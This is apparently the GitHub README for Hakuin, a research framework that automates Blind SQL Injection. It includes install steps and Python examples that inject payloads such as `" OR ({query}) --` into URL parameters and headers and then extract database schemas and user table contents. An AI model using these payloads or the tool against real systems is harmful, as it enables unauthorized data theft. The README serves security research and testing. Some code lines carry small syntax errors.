 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) optimization and automation framework written in Python 3. It abstract away the inference logic and allows users to easily and efficiently extract databases (DB) from vulnerable web applications. To speed up the process, Hakuin uses pre-trained language models for DB schemas and adaptive language models in combination with opportunistic string guessing for textual DB content.

Hakuin has been presented at esteemed academic and industrial conferences:
- [BlackHat MEA, Riyadh](https://blackhatmea.com/session/hakuin-injecting-brain-blind-sql-injection), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023
- [IEEE S&P Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023

More information can be found in our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) and [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).


## Installation
To install Hakuin, simply run:
```
pip3 install hakuin
```
Developers should install the package locally and set the `-e` flag for editable mode:
```
git clone git@github.com:pruzko/hakuin.git
cd hakuin
pip3 install -e .
```


## Examples
Once you identify a BSQLI vulnerability, you need to tell Hakuin how to inject its queries. To do this, derive a class from the `Requester` and override the `request` method. Also, the method must determine whether the query resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import requests
from hakuin import Requester

class StatusRequester(Requester):
    def request(self, ctx, query):
        r = requests.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status_code == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = requests.get(f'http://vuln.com/', headers=headers)
        return 'found' in r.content.decode()
```

To start extracting data, use the `Extractor` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Currently, Hakuin supports SQLite and MySQL DBMSs, but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Extracting SQLite DBs
```python
from hakuin.dbms import SQLite
from hakuin import Extractor, Requester

class StatusRequester(Requester):
    ...

ext = Extractor(requester=StatusRequester(), dbms=SQLite())
```

##### Example 2 - Extracting MySQL DBs
```python
from hakuin.dbms import MySQL
...
ext = Extractor(requester=StatusRequester(), dbms=MySQL())
```

Now that eveything is set, you can start extracting DB schemas.

##### Example 1 - Extracting DB Schemas
```python
# strategy:
#   'binary':   Use binary search
#   'model':    Use pre-trained models
schema = ext.extract_schema(strategy='model')
```

```

##### Example 2 - Extracting only Table/Column Names
```python
tables = ext.extract_table_names(strategy='model')
columns = ext.extract_column_names(table='users', strategy='model')
```

Once you know the schema, you can extract the actual content.

##### Example 1 - Extracting Textual Columns
```python
# strategy:
#   'binary':       Use binary search
#   'fivegram':     Use five-gram model
#   'unigram':      Use unigram model
#   'dynamic':      Dynamically identify the best strategy. This setting
#                   also enables opportunistic guessing.
res = ext.extract_column_text(table='users', column='address', strategy='dynamic'):
```

##### Example 2 - Extracting Integer Columns
```python
res = ext.extract_column_int(table='users', column='id'):
```

##### Example 3 - Extracting Float Columns
```python
res = ext.extract_column_float(table='products', column='price'):
```

##### Example 4 - Extracting Blob (Binary Data) Columns
```python
res = ext.extract_column_blob(table='users', column='id'):
```

More examples can be found in the `tests` directory.


### Using Hakuin from the Command Line
Hakuin comes with a simple wrapper tool, `hk.py`, that allows you to use Hakuin's basic functionality directly from the command line. To find out more, run:
```
python3 hk.py -h
```


## For Researchers
This repository is actively developed to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
